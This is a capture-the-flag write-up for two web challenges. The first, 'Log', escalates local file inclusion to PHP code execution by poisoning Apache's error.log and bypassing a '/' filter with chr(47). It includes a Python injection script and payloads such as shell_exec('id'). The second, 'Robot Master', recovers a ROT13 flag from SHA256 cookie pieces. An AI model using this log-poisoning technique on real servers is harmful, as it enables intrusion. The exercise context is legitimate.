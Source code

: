 # Log
## Description

GET the right file.

Author: Ph03N1X

[Link](http://3.7.251.179/) 

## Solution
#### Recon
First, we opened the website, there we given lots of links. But when we clicked on most of the link, we were greeted with an error page. After some observation, we realized that there is a link that's different with another link.

![](https://raw.githubusercontent.com/kerupuksambel/ctf-writeup/master/BSides_2020/img/Log_1.png) 

Clicking on that link would redirect us to a different page :

![](https://raw.githubusercontent.com/kerupuksambel/ctf-writeup/master/BSides_2020/img/Log_2.png).

We also learned some things in this phase :
- There are some files that we can't get (.htaccess would return 403 Forbidden)
- The server was run in Apache (we know it from error message that was triggered when we requested a non-existent file )

#### LFI
After that, we spent some times figuring what to do next. With the hint in the title (_**Log**_) and the info that the server run in Apache, we assumed that we have to read the log file. So... LFI perhaps?

We tried the word 'file' as parameter to include file, and it works!

 ![](https://raw.githubusercontent.com/kerupuksambel/ctf-writeup/master/BSides_2020/img/Log_3.png) 
 
#### Journey to RCE

Okay, so far we can do LFI, but no sign of flag here... So we assumed that we have to escalate our LFI to RCE. Doing a data:// wrapper wasn't working because of _allow_url_include_ config was set to 0. 

Finally, we tried a RCE by using Apache log file. There are two types of Apache log file : **access.log** (For logging successful requests) and **error.log** (For logging failed requests). But, when we include access.log, we were failed because the file isn't exist. So, we tried to include error.log and it worked. 

![](https://raw.githubusercontent.com/kerupuksambel/ctf-writeup/master/BSides_2020/img/Log_4.png) 

#### Triggering error.log

So next we have to trigger error.log to log our failed request. We can do it by requesting .htaccess. But how to log our crafted request?

Turns out, it was possible to request .htaccess[ABRITRARY_STRING] to trigger the logging. So we successfully logged our crafted request. 

Here's a script that automated our request.

	import requests
	link = "http://3.7.251.179/"
	
	log = 'http://3.7.251.179/click-here_00.php?file=/var/log/apache2/error.log'
	def gs(pl):
		return link + '.htaccess' + pl
	
	payload = '<%3Fphp echo "PAYLOAD HERE" %3F>'
	r = requests.get(gs(payload))
	r2 = requests.get(log)
	print(r2.text)

#### Filter Bypassing

Yay! We can do LFI to error.log, so we can do a RCE...

...right?

It's not that easy. The system seems to blocked some strings so we can't do a RCE easily.

First, obviously we tried to executed some script to execute `shell_exec`. So we tried executing `<%3Fphp echo shell_exec("id") %3F>` as our payload with the script. And the result?

> [authz_core:error] [pid 84] [client 114.4.219.126:54871] AH01630: client denied by server configuration: /var/www/html/.htaccess<?php echo shell_exec("id"); ?>

Oops! Seems that we can't do `shell_exec` here.

Let's try another approach. How if we do a path traversal to find the flag with scandir() function?  We tried `<%3Fphp var_dump(scandir("/")); %3F>` but it doesn't work. So we bypassed the "/" filter by using chr(47) and it worked.

Long story short, after some path traversals, we found an interesting file in `/f/l/a/g/somethingUneed.txt`. And including it in our LFI will return our flag.

![](https://raw.githubusercontent.com/kerupuksambel/ctf-writeup/master/BSides_2020/img/Log_5.png) 

**Flag** :  `BSDCTF{L0cal_f1L3_InClu$10N_1$_v3RY_P015On0u$} `

**Disclaimer** : Some of the exploit in this writeup doesn't work in the writeup making phase.


# Robot Master
## Description

You know what to do, collect them all.

Author: Ph03N1X

[Link](http://15.206.202.26/) 

## Solution
#### Recon
As the title, the first thing we saw is the `robots.txt` file. We found an interesting file in /cookie.php
![](https://raw.githubusercontent.com/kerupuksambel/ctf-writeup/master/BSides_2020/img/Robot_1.png) 

Opening `cookie.php` revealing us some interesting cookies.

![](https://raw.githubusercontent.com/kerupuksambel/ctf-writeup/master/BSides_2020/img/Log_2.png) 

#### Cookie Unifying
Trying to google the value of `Our_Favourite_Cookie` tells us that the value is actually a SHA256 hash of 'O'. Then, when we change the value of `Piece`, we got a different hash. Realizing that this maybe is a SHA256 of an individual letter of a flag, we tried to automate the process. Here's the script we craft to request every hash piece of the flag.

	import requests
	import hashlib
	import string
	
	link = 'http://15.206.202.26/cookie.php'
	
	poss = string.printable
	table = {}
	
	flag = ""
	
	for _ in poss:
		sha = hashlib.sha256(_.encode()).hexdigest()
		table[_] = sha
	
	for i in range(50):
		cookie = {
			"Piece" : str(i),
			"Our_Fav_Cookie" : "rinrin!"
		}
		r = requests.get(link, cookies=cookie)
	
		d = (dict(r.cookies))
		for t in table:
			if table[t] == d["Our_Fav_Cookie"]:
				flag += t
	
		print(flag)

After running the script, we realized there's a flag-like string on the result, 
> OFQPGS{P00x135_ne3_o35g_cy4p3_70_pu3px}

Shifting the string with Caesar cipher with N = 13 giving us our flag.

**Flag** : `BSDCTF{C00k135_ar3_b35t_pl4c3_70_ch3ck}`
